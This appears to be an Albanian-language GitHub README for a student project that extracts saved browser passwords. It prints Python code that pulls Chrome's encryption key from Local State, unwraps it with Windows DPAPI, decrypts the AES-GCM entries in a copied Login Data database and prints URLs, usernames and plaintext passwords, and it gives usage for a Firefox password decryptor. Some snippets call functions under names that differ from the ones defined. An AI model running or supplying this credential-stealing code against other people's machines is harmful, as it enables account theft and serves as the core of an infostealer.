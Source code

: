 # Zhvillimi i aplikacionit që lexon passwordët e ruajtur në browseret klasik (Edge, Chrome, Mozilla)
## Teknologjitë e përdorura
* Python
  * `os`
  * `json`
  * `base64`
  * `sqlite3`
  * `win32crypt`
  * `Cryptodome.Cipher`
  * `shutil`
  * `datetime`
---
## Instalimi
- win32crypt

```bash
pip install pypiwin32p 
```

- Cryptodome.Cipher
```bash
pip install pycryptodomex
```

---
## Implementimi
> Hapat realizues:
1. Fillimisht kemi një funksion që merr datën dhe kohën
2. Marrja e qelësit enkriptues të shfletuesit
3. Dekriptimi i fjalëkalimit
4. Lidhja me databazë
5. Selektimi i rreshtave të tabelës "login"
6. Iterimi në të gjith rreshtat 
7. Printimi i të gjith rreshtave qe i merr
8. Mbyllja e databazës
9. Largimi i file-it te krijuar

### Marrja e qelësit enkriptues
```python
def fetching_encryption_key():
    # Pathi qe eshte ne kompjuterin e shfrytzuesit
    local_computer_directory_path = os.path.join(
        os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome",
        "User Data", "Local State")

    with open(local_computer_directory_path, "r", encoding="utf-8") as f:
        local_state_data = f.read()
        local_state_data = json.loads(local_state_data)

    # Dekodimi i qelsit enkriptues duke perdorur base64
    encryption_key = base64.b64decode(
        local_state_data["os_crypt"]["encrypted_key"])

    # Largimi i "Windows Data Protection API" ose "DPAPI"
    encryption_key = encryption_key[5:]

    # Kthen qelsin e dekriptuar
    return win32crypt.CryptUnprotectData(encryption_key, None, None, None, 0)[1]
```

### Dekriptimi i fjalëkalimit
```python 
def password_decryption(password, encryption_key):
    try:
        iv = password[3:15]
        password = password[15:]

        # Gjeneron shifren
        cipher = AES.new(encryption_key, AES.MODE_GCM, iv)

        # Dekripton fjalkalimin
        return cipher.decrypt(password)[:-16].decode()
    except:

        try:
            return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
        except:
            return "No Passwords"
```
### Krijimi i një file për ruajtjen e të dhënave
```python
  key = fetching_encryption_key_chrome()
    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                           "Google", "Chrome", "User Data", "Default", "Login Data")
    filename = "RandomeName.db"
    shutil.copyfile(db_path, filename)
```

### Marrja e të dhenave nga file ku i kemi ruajtur dhe shtypja e tyre
```python
 for row in cursor.fetchall():
        main_url = row[0]
        login_page_url = row[1]
        user_name = row[2]
        decrypted_password = password_decryption_chrome(row[3], key)
        date_of_creation = row[4]
        last_usuage = row[5]

        if user_name or decrypted_password:
            print(f"Main URL: {main_url}")
            print(f"Login URL: {login_page_url}")
            print(f"User name: {user_name}")
            print(f"Decrypted Password: {decrypted_password}")
```
## Leximi i fjalëkalimeve të ruajtura në Mozilla Firefox 

Firefox_decrypt.py është një mjet për nxjerrjen e fjalëkalimeve nga profilet e Mozilla Firefox. Nese fjalkalimi kryesore nuk dihet, nuk kthen asnje te dhene.

Kërkon akses te libnss3, i përfshirë me shumicën e produkteve të Mozilla-s. 

### Përdorimi 

```bash
   python firefox_decrypt.py
```

Mjeti do të paraqesë një listë të numëruar të profileve. 

Pastaj, një kërkesë për të vendosur fjalëkalimin kryesor për profilin:

* Nëse nuk është vendosur asnjë fjalëkalim, nuk do të kërkohet një i tillë.
* Nëse një fjalëkalim është vendosur dhe dihet, futeni atë dhe shtypni butonin Kthehu ose Enter
* Nëse është vendosur një fjalëkalim dhe nuk dihet më, nuk mund të vazhdosh

Nëse profilet e juaja janë të vendosura në një path tjeter, mund të përdorni komanden:

```bash
  python firefox_decrypt.py /folder/containing/profiles.ini/
```
### Mënyra të tjera 

Ju gjithashtu mund të zgjidhni një nga formatet e mbështetura me `--format`:

 * `human` - Një format që shfaq një rekord për çdo 3 rreshta
 * `csv` - Formatin csv
 * `tabular` - E ngjashme me csv, por në vend të kësaj shfaqen nw formë tabelare.


```bash
   python firefox_decrypt.py --format human 
```

---

## Punuan

- [@AdhuresaSylejmani](https://github.com/AdhuresaSylejmani)
- [@AdnitKamberi](https://github.com/adnit)
- [@ArbenDedaj](https://github.com/ArbDe)


